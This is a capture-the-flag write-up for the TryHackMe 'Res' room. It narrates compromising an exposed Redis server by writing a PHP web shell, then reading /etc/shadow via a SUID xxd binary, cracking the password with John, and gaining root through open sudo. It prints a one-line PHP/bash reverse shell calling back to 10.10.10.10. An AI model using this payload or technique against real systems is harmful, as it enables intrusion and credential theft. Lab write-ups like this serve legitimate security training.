

# Res - Writeup

**Date**: 27/03/2022

**Difficulty**: Easy

**CTF**: [https://tryhackme.com/room/res](https://tryhackme.com/room/res)

---

Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

# Scan the machine, how many ports are open?



# What’s the database management system installed on the server? What port is the database management system running on?What's is the version of management system installed on the server?


# Compromise the machine and locate user.txt

First of all, let’s visit the webpage hosted on the port 80:


It displays a default page of an apache server recently installed.

As we have seen, there is a redis server running on port 6379. After some reading, I found that there is a way to interact with this service.

Let’s download the redis application:

[https://redis.io/docs/getting-started/](https://redis.io/docs/getting-started/) 

[https://redis.io/docs/manual/cli/](https://redis.io/docs/manual/cli/)

Let’s test the connection:


It seems like we have connection with the redis server!


The info command seems to be helpful to retrieve redis server information:


According to this webpage ([https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)) there is a way to do a Remote Code Execution on a redis server:


We should know the path where we want to write the php file. Since we have visited the page before, we know that the folder is: `/var/www/html`

So, following the steps we do the same in our case:


Now let’s visit the page:


It works, now let’s try to write a reverse shell in php:


Let’s open a netcat listener in our machine:


And let’s visit the rs.php file:


We got a connection but it quickly disconnects...

Let’s try with this other one-line php reverse shell:

```jsx
'<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.10.10/1234 0>&1\'"); ?>'
```


Yeah, this one works! 


We found the key file in the /home/vianka folder.

# What is the local user account password?

Before anything, let’s try to stabilize this shell:


Python is installed in the machine, so let’s use it:


Ok, shell stabilized, now let’s look for the local user account password. Can we read /etc/shadow file?


Nope, we can’t.

Something interesting in the history?


Let’s see if we find some keys in the user directory... nothing useful I can see...

After spending some time looking for ssh keys or something useful, I look for files with SUID activated:


From this list, xxd appears in the GTFO Bins list:


Exploiting this, we should be able to read /etc/shadow file!


Yeah! Now with the info of /etc/passwd, let’s use unshadow and John the ripper to crack the hash!


Unshadow done, now let’s crack it!


Cool!

# Escalate privileges and obtain root.txt

Let’s login as vianka and see if we have more permissions:


Enough permissions to access to root folder?


Nope. Let’s see what we can execute with sudo:


Really? We can run any command using sudo...


Woah


And this quickly we get the last flag!